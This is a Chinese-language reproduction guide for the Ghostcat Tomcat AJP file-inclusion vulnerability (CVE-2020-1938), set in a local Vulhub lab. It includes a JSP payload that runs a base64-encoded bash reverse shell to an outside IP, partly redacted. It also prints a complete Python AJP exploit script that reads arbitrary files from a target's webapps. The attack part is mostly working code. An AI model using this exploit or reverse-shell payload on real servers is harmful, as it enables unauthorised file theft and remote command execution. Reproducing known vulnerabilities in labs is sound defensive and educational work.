





# Apache Tomcat AJP 文件包含漏洞 CVE-2020-1938

## 漏洞描述

Java 是目前 Web 开发中最主流的编程语言，而 Tomcat 是当前最流行的 Java 中间件服务器之一，从初版发布到现在已经有二十多年历史，在世界范围内广泛使用。

[Ghostcat（幽灵猫）](https://www.chaitin.cn/zh/ghostcat) 是由长亭科技安全研究员发现的存在于 Tomcat 中的安全漏洞，由于 Tomcat AJP 协议设计上存在缺陷，攻击者通过 Tomcat AJP Connector 可以读取或包含 Tomcat 上所有 webapp 目录下的任意文件，例如可以读取 webapp 配置文件或源代码。此外在目标应用有文件上传功能的情况下，配合文件包含的利用还可以达到远程代码执行的危害。

参考链接：

- https://www.chaitin.cn/zh/ghostcat
- https://www.cnvd.org.cn/webinfo/show/5415
- https://mp.weixin.qq.com/s/D1hiKJpah3NhEBLwtTodsg
- https://mp.weixin.qq.com/s/GzqLkwlIQi_i3AVIXn59FQ

## 漏洞影响

```
Apache Tomcat 6
Apache Tomcat 7 < 7.0.100
Apache Tomcat 8 < 8.5.51
Apache Tomcat 9 < 9.0.31
```

## 环境搭建

Vulhub执行如下命令启动一个Tomcat 9.0.30：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可查看tomcat默认页面，此时通过AJP协议的8009端口亦可访问Tomcat。

## 漏洞复现

利用如下工具均可测试漏洞：

- https://github.com/chaitin/xray
- https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi

通过漏洞POC[CNVD-2020-10487-Tomcat-Ajp-lfi](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi)进行测试，注意，代码基于python2环境。

读取WEB-INF/web.xml文件：



在docker的ROOT目录下新建文件用来测试是否可以成功读取，首先进入容器新建一个flag.txt文件：

```
[root@VM-16-16-centos CVE-2020-1938]# docker exec -it fbe4 /bin/bash
root@fbe43a63b620:/usr/local/tomcat# cd webapps/ROOT/
root@fbe43a63b620:/usr/local/tomcat/webapps/ROOT# echo "flag{Woooooooo}" > flag.txt
```

执行CNVD-2020-10487-Tomcat-Ajp-lfi.py读取flag.txt文件，读取成功：

```
python CNVD-2020-10487-Tomcat-Ajp-lfi.py 127.0.0.1 -p 8009 -f flag.txt
```



### 反弹shell

该漏洞需要配合文件上传漏洞才能利用，假设服务器已经有了存在一个txt文件，里面的内容可以执行任意命令（实际情况中，要利用目标服务器的文件上传功能上传文件）。 

构造payload：



```
<%
    java.io.InputStream in = Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDEuNDIuMjM3xxxxxxxxkgMD4mMQ==}|{base64,-d}|{bash,-i}").getInputStream();
    int a = -1;
    byte[] b = new byte[2048];
    out.print("<pre>");
    while((a=in.read(b))!=-1){
        out.println(new String(b));
    }
    out.print("</pre>");%>

```

将内容保存在txt文件里，使用命令将txt文件复制到服务器的ROOT路径：

```
[root@VM-16-16-centos CVE-2020-1938]# docker cp shell.txt fbe4:/usr/local/tomcat/webapps/ROOT/
```

要想实现文件包含，必须要运行包含的文件，所以目标文件需要是jsp。

此处需要修改CNVD-2020-10487-Tomcat-Ajp-lfi.py脚本中的文件名asdf为asdf.jsp：



执行CNVD-2020-10487-Tomcat-Ajp-lfi.py读取shell.txt文件，执行反弹shell命令：

```
python CNVD-2020-10487-Tomcat-Ajp-lfi-shell.py 127.0.0.1 -p 8009 -f shell.txt
```

监听6666端口，成功接收反弹shell：



## 漏洞POC

```python
#!/usr/bin/env python
#CNVD-2020-10487  Tomcat-Ajp lfi
#by ydhcui
import struct

# Some references:
# https://tomcat.apache.org/connectors-doc/ajp/ajpv13a.html
def pack_string(s):
	if s is None:
		return struct.pack(">h", -1)
	l = len(s)
	return struct.pack(">H%dsb" % l, l, s.encode('utf8'), 0)
def unpack(stream, fmt):
	size = struct.calcsize(fmt)
	buf = stream.read(size)
	return struct.unpack(fmt, buf)
def unpack_string(stream):
	size, = unpack(stream, ">h")
	if size == -1: # null string
		return None
	res, = unpack(stream, "%ds" % size)
	stream.read(1) # \0
	return res
class NotFoundException(Exception):
	pass
class AjpBodyRequest(object):
	# server == web server, container == servlet
	SERVER_TO_CONTAINER, CONTAINER_TO_SERVER = range(2)
	MAX_REQUEST_LENGTH = 8186
	def __init__(self, data_stream, data_len, data_direction=None):
		self.data_stream = data_stream
		self.data_len = data_len
		self.data_direction = data_direction
	def serialize(self):
		data = self.data_stream.read(AjpBodyRequest.MAX_REQUEST_LENGTH)
		if len(data) == 0:
			return struct.pack(">bbH", 0x12, 0x34, 0x00)
		else:
			res = struct.pack(">H", len(data))
			res += data
		if self.data_direction == AjpBodyRequest.SERVER_TO_CONTAINER:
			header = struct.pack(">bbH", 0x12, 0x34, len(res))
		else:
			header = struct.pack(">bbH", 0x41, 0x42, len(res))
		return header + res
	def send_and_receive(self, socket, stream):
		while True:
			data = self.serialize()
			socket.send(data)
			r = AjpResponse.receive(stream)
			while r.prefix_code != AjpResponse.GET_BODY_CHUNK and r.prefix_code != AjpResponse.SEND_HEADERS:
				r = AjpResponse.receive(stream)

			if r.prefix_code == AjpResponse.SEND_HEADERS or len(data) == 4:
				break
class AjpForwardRequest(object):
	_, OPTIONS, GET, HEAD, POST, PUT, DELETE, TRACE, PROPFIND, PROPPATCH, MKCOL, COPY, MOVE, LOCK, UNLOCK, ACL, REPORT, VERSION_CONTROL, CHECKIN, CHECKOUT, UNCHECKOUT, SEARCH, MKWORKSPACE, UPDATE, LABEL, MERGE, BASELINE_CONTROL, MKACTIVITY = range(28)
	REQUEST_METHODS = {'GET': GET, 'POST': POST, 'HEAD': HEAD, 'OPTIONS': OPTIONS, 'PUT': PUT, 'DELETE': DELETE, 'TRACE': TRACE}
	# server == web server, container == servlet
	SERVER_TO_CONTAINER, CONTAINER_TO_SERVER = range(2)
	COMMON_HEADERS = ["SC_REQ_ACCEPT",
		"SC_REQ_ACCEPT_CHARSET", "SC_REQ_ACCEPT_ENCODING", "SC_REQ_ACCEPT_LANGUAGE", "SC_REQ_AUTHORIZATION",
		"SC_REQ_CONNECTION", "SC_REQ_CONTENT_TYPE", "SC_REQ_CONTENT_LENGTH", "SC_REQ_COOKIE", "SC_REQ_COOKIE2",
		"SC_REQ_HOST", "SC_REQ_PRAGMA", "SC_REQ_REFERER", "SC_REQ_USER_AGENT"
	]
	ATTRIBUTES = ["context", "servlet_path", "remote_user", "auth_type", "query_string", "route", "ssl_cert", "ssl_cipher", "ssl_session", "req_attribute", "ssl_key_size", "secret", "stored_method"]
	def __init__(self, data_direction=None):
		self.prefix_code = 0x02
		self.method = None
		self.protocol = None
		self.req_uri = None
		self.remote_addr = None
		self.remote_host = None
		self.server_name = None
		self.server_port = None
		self.is_ssl = None
		self.num_headers = None
		self.request_headers = None
		self.attributes = None
		self.data_direction = data_direction
	def pack_headers(self):
		self.num_headers = len(self.request_headers)
		res = ""
		res = struct.pack(">h", self.num_headers)
		for h_name in self.request_headers:
			if h_name.startswith("SC_REQ"):
				code = AjpForwardRequest.COMMON_HEADERS.index(h_name) + 1
				res += struct.pack("BB", 0xA0, code)
			else:
				res += pack_string(h_name)

			res += pack_string(self.request_headers[h_name])
		return res

	def pack_attributes(self):
		res = b""
		for attr in self.attributes:
			a_name = attr['name']
			code = AjpForwardRequest.ATTRIBUTES.index(a_name) + 1
			res += struct.pack("b", code)
			if a_name == "req_attribute":
				aa_name, a_value = attr['value']
				res += pack_string(aa_name)
				res += pack_string(a_value)
			else:
				res += pack_string(attr['value'])
		res += struct.pack("B", 0xFF)
		return res
	def serialize(self):
		res = ""
		res = struct.pack("bb", self.prefix_code, self.method)
		res += pack_string(self.protocol)
		res += pack_string(self.req_uri)
		res += pack_string(self.remote_addr)
		res += pack_string(self.remote_host)
		res += pack_string(self.server_name)
		res += struct.pack(">h", self.server_port)
		res += struct.pack("?", self.is_ssl)
		res += self.pack_headers()
		res += self.pack_attributes()
		if self.data_direction == AjpForwardRequest.SERVER_TO_CONTAINER:
			header = struct.pack(">bbh", 0x12, 0x34, len(res))
		else:
			header = struct.pack(">bbh", 0x41, 0x42, len(res))
		return header + res
	def parse(self, raw_packet):
		stream = StringIO(raw_packet)
		self.magic1, self.magic2, data_len = unpack(stream, "bbH")
		self.prefix_code, self.method = unpack(stream, "bb")
		self.protocol = unpack_string(stream)
		self.req_uri = unpack_string(stream)
		self.remote_addr = unpack_string(stream)
		self.remote_host = unpack_string(stream)
		self.server_name = unpack_string(stream)
		self.server_port = unpack(stream, ">h")
		self.is_ssl = unpack(stream, "?")
		self.num_headers, = unpack(stream, ">H")
		self.request_headers = {}
		for i in range(self.num_headers):
			code, = unpack(stream, ">H")
			if code > 0xA000:
				h_name = AjpForwardRequest.COMMON_HEADERS[code - 0xA001]
			else:
				h_name = unpack(stream, "%ds" % code)
				stream.read(1) # \0
			h_value = unpack_string(stream)
			self.request_headers[h_name] = h_value
	def send_and_receive(self, socket, stream, save_cookies=False):
		res = []
		i = socket.sendall(self.serialize())
		if self.method == AjpForwardRequest.POST:
			return res

		r = AjpResponse.receive(stream)
		assert r.prefix_code == AjpResponse.SEND_HEADERS
		res.append(r)
		if save_cookies and 'Set-Cookie' in r.response_headers:
			self.headers['SC_REQ_COOKIE'] = r.response_headers['Set-Cookie']

		# read body chunks and end response packets
		while True:
			r = AjpResponse.receive(stream)
			res.append(r)
			if r.prefix_code == AjpResponse.END_RESPONSE:
				break
			elif r.prefix_code == AjpResponse.SEND_BODY_CHUNK:
				continue
			else:
				raise NotImplementedError
				break

		return res

class AjpResponse(object):
	_,_,_,SEND_BODY_CHUNK, SEND_HEADERS, END_RESPONSE, GET_BODY_CHUNK = range(7)
	COMMON_SEND_HEADERS = [
			"Content-Type", "Content-Language", "Content-Length", "Date", "Last-Modified",
			"Location", "Set-Cookie", "Set-Cookie2", "Servlet-Engine", "Status", "WWW-Authenticate"
			]
	def parse(self, stream):
		# read headers
		self.magic, self.data_length, self.prefix_code = unpack(stream, ">HHb")

		if self.prefix_code == AjpResponse.SEND_HEADERS:
			self.parse_send_headers(stream)
		elif self.prefix_code == AjpResponse.SEND_BODY_CHUNK:
			self.parse_send_body_chunk(stream)
		elif self.prefix_code == AjpResponse.END_RESPONSE:
			self.parse_end_response(stream)
		elif self.prefix_code == AjpResponse.GET_BODY_CHUNK:
			self.parse_get_body_chunk(stream)
		else:
			raise NotImplementedError

	def parse_send_headers(self, stream):
		self.http_status_code, = unpack(stream, ">H")
		self.http_status_msg = unpack_string(stream)
		self.num_headers, = unpack(stream, ">H")
		self.response_headers = {}
		for i in range(self.num_headers):
			code, = unpack(stream, ">H")
			if code <= 0xA000: # custom header
				h_name, = unpack(stream, "%ds" % code)
				stream.read(1) # \0
				h_value = unpack_string(stream)
			else:
				h_name = AjpResponse.COMMON_SEND_HEADERS[code-0xA001]
				h_value = unpack_string(stream)
			self.response_headers[h_name] = h_value

	def parse_send_body_chunk(self, stream):
		self.data_length, = unpack(stream, ">H")
		self.data = stream.read(self.data_length+1)

	def parse_end_response(self, stream):
		self.reuse, = unpack(stream, "b")

	def parse_get_body_chunk(self, stream):
		rlen, = unpack(stream, ">H")
		return rlen

	@staticmethod
	def receive(stream):
		r = AjpResponse()
		r.parse(stream)
		return r

import socket

def prepare_ajp_forward_request(target_host, req_uri, method=AjpForwardRequest.GET):
	fr = AjpForwardRequest(AjpForwardRequest.SERVER_TO_CONTAINER)
	fr.method = method
	fr.protocol = "HTTP/1.1"
	fr.req_uri = req_uri
	fr.remote_addr = target_host
	fr.remote_host = None
	fr.server_name = target_host
	fr.server_port = 80
	fr.request_headers = {
		'SC_REQ_ACCEPT': 'text/html',
		'SC_REQ_CONNECTION': 'keep-alive',
		'SC_REQ_CONTENT_LENGTH': '0',
		'SC_REQ_HOST': target_host,
		'SC_REQ_USER_AGENT': 'Mozilla',
		'Accept-Encoding': 'gzip, deflate, sdch',
		'Accept-Language': 'en-US,en;q=0.5',
		'Upgrade-Insecure-Requests': '1',
		'Cache-Control': 'max-age=0'
	}
	fr.is_ssl = False
	fr.attributes = []
	return fr

class Tomcat(object):
	def __init__(self, target_host, target_port):
		self.target_host = target_host
		self.target_port = target_port

		self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		self.socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
		self.socket.connect((target_host, target_port))
		self.stream = self.socket.makefile("rb", bufsize=0)

	def perform_request(self, req_uri, headers={}, method='GET', user=None, password=None, attributes=[]):
		self.req_uri = req_uri
		self.forward_request = prepare_ajp_forward_request(self.target_host, self.req_uri, method=AjpForwardRequest.REQUEST_METHODS.get(method))
		print("Getting resource at ajp13://%s:%d%s" % (self.target_host, self.target_port, req_uri))
		if user is not None and password is not None:
			self.forward_request.request_headers['SC_REQ_AUTHORIZATION'] = "Basic " + ("%s:%s" % (user, password)).encode('base64').replace('\n', '')
		for h in headers:
			self.forward_request.request_headers[h] = headers[h]
		for a in attributes:
			self.forward_request.attributes.append(a)
		responses = self.forward_request.send_and_receive(self.socket, self.stream)
		if len(responses) == 0:
			return None, None
		snd_hdrs_res = responses[0]
		data_res = responses[1:-1]
		if len(data_res) == 0:
			print("No data in response. Headers:%s\n" % snd_hdrs_res.response_headers)
		return snd_hdrs_res, data_res

'''
javax.servlet.include.request_uri
javax.servlet.include.path_info
javax.servlet.include.servlet_path
'''

import argparse
parser = argparse.ArgumentParser()
parser.add_argument("target", type=str, help="Hostname or IP to attack")
parser.add_argument('-p', '--port', type=int, default=8009, help="AJP port to attack (default is 8009)")
parser.add_argument("-f", '--file', type=str, default='WEB-INF/web.xml', help="file path :(WEB-INF/web.xml)")
args = parser.parse_args()
t = Tomcat(args.target, args.port)
_,data = t.perform_request('/asdf',attributes=[
    {'name':'req_attribute','value':['javax.servlet.include.request_uri','/']},
    {'name':'req_attribute','value':['javax.servlet.include.path_info',args.file]},
    {'name':'req_attribute','value':['javax.servlet.include.servlet_path','/']},
    ])
print('----------------------------')
print("".join([d.data for d in data]))
```

